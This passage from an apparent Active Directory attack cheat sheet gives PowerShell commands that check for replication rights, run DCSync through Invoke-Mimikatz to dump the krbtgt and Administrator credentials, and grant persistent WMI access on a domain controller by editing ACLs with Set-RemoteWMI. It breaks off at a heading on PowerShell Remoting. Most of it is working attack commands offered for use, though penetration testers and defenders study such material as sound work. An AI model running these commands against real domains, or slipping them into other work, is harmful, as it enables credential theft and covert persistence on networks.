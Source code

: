 - Check if we have replication rights required to run DCSync

```
PS C:\> Get-ObjectAcl -DistinguishedName "dc=test,dc=domain,dc=local" -ResolveGUIDs | ? {($_.IdentityReference -match "<username>") -and (($_.ObjectType -match 'replication') -or ($_.ActiveDirectoryRights -match 'GenericAll'))}
```

- Execute DCSync

```
PS C:\> Invoke-Mimikatz -Command '"lsadump::dcsync /user:<Domain>\krbtgt"'
PS C:\> Invoke-Mimikatz -Command '"lsadump::dcsync /user:<Domain>\Administrator"'        # Can be used for any user
```

### Security Descriptors (Persistence using ACLs)

- Enable our user the ability to execute WMI queries on a target machine e.g. Domain Controller even without having Administrative privileges using the GUI as a Domain Admin. Consists of two parts: must have the privileges to connect to the DCOM endpoint, and must have the privileges to connect to the namespace

```
DCOM endpoint: Start Menu -> Component Service -> Computers -> My Computer -> Properties -> COM Security Tab -> Access Permissions -> Edit Links -> Add our user -> Click Allow for everything

Namespace: Start Menu -> Computer Management -> Services and Applications -> WMI Control -> Properties -> Security Tab -> Root -> Security -> Add our user -> Click Allow for everything -> Advanced -> Select our user -> Edit -> Applies to 'This namespace and subnamespaces'
```

- Enable our user the ability to execute WMI queries on a target machine e.g. Domain Controller even without having Administrative privileges using PowerShell commands (modify ACLs to allow non-admin users access to securable objects) as Domain Admin

```
PS C:\> Set-RemoteWMI -UserName <username> -Verbose        # On local machine for <username>

PS C:\> Set-RemoteWMI -UserName <username> -ComputerName <Domain Controller> -namespace 'root\cimv2' -Verbose        # On remote machine for <username> without explicit credentials

PS C:\> Set-RemoteWMI -UserName <username> -ComputerName <Domain Controller> -Credential Administrator -namespace 'root\cimv2' -Verbose        # On remote machine with explicit credentials. Only root\cimv2 and nested namespaces

PS C:\> Set-RemoteWMI -UserName <username> -ComputerName <Domain Controller> -namespace 'root\cimv2' -Remove -Verbose        # On remote machine, remove the permissions
```

- Check if you can execute WMI queries

```
PS C:\> Get-Wmiobject -Class win32_operatingsystem -ComputerName <Domain Controller>
```

- Enable our user the ability to execute PowerShell Remoting to a target machine e.g. Domain Controller even without having Administrative privileges using PowerShell commands (modify ACLs to allow non-admin users access to securable objects) as Domain Admin
